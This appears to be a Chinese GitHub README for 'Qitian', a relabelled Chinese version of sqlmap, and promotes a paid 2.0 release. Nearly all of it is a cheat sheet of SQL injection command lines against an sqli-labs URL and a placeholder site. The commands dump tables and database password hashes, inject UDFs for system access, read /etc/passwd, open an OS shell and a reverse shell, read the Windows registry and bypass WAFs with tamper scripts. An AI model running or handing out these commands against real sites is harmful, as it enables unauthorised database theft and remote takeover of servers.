 ## 魔改了一版中文版的SQLMAP，如下图：

 下面是由猫鼠信安团队，魔改为中文版的sqlmap，Qitian功能参数一模一样，
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/801ec7ff2c8f4432a525ec7aaefa913e.png)


![在这里插入图片描述](https://img-blog.csdnimg.cn/60382cf2fe6c4b42b7e8794955f4b747.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5731ccf6bf5a4cba88eb9bdbbe8dc8ac.png)

## Qitian 2.0版，进知识星球获取

![5f9524e1555bdcc62ac91e92e5a1eaf](https://github.com/Xuno1/QiTian/assets/65332064/f5d32700-5320-4a58-aaf1-3a254026de28)




## 2.Qitian基础信息

 

 获取当前用户名称

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --current-user


获取当前数据库名称

 

 

 >python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --current-db


获取表名

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -D security --tables


获取字段

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -D security -T users --columns


获取字段内容

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -D security -T users -C id --dump


3.Qitian进阶信息内容

执行测试等级

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --level 2
>指定数据库类型

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --dbms "Mysql"
>列数据库用户

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --users


列数据库

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --dbs


数据库用户密码

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --passwords


列出指定用户数据库密码

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --passwords -U root


查看权限

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --privileges
>查看指定用户权限

 

p>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --privileges -U root


是否是数据库管理员

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --is-dba


枚举数据库用户角色

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" --roles


导入用户自定义函数（获取系统权限！）

 

Qitian/Qitian.py -u "http://url/news?id=1"   --udf-inject


cookie注入

 

python Qitian/Qitian.py -u "http://url/news?id=1"   --cookie "COOKIE_VALUE"


获取banner信息

 

>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -b


post注入

 


>python Qitian/Qitian.py -u "http://url/news?id=1" --data "id=3"


指纹判别数据库类型

 


>python Qitian.py -u "http://127.0.0.1/sql/Less-1/?id=1" -f


代理注入

 


>python Qitian/Qitian.py -u "http://url/news?id=1"  --proxy"http://127.0.0.1:8118"


指定关键词

 

 

 

 

 


>python Qitian/Qitian.py -u "http://url/news?id=1"--string"STRING_ON_TRUE_PAGE"

执行系统命令


>python Qitian/Qitian.py -u "http://url/news?id=1"   --file /etc/passwd

统交互shell


>python Qitian/Qitian.py -u "http://url/news?id=1"   --os-shell

反弹shell


>python Qitian/Qitian.py -u "http://url/news?id=1"   --os-pwn

读取win系统注册表

 

>python Qitian/Qitian.py -u "http://url/news?id=1"   --reg-read


保存进度

 

>python Qitian/Qitian.py -u "http://url/news?id=1"    --dbs-o "Qitian.log"


恢复已保存进度

 

>python Qitian/Qitian.py -u "http://url/news?id=1"    --dbs  -o "Qitian.log" --resume


## 3.Qitian绕过WAF

>python Qitian/Qitian.py -u "http://url/news?id=1"    --tamper 指定脚本
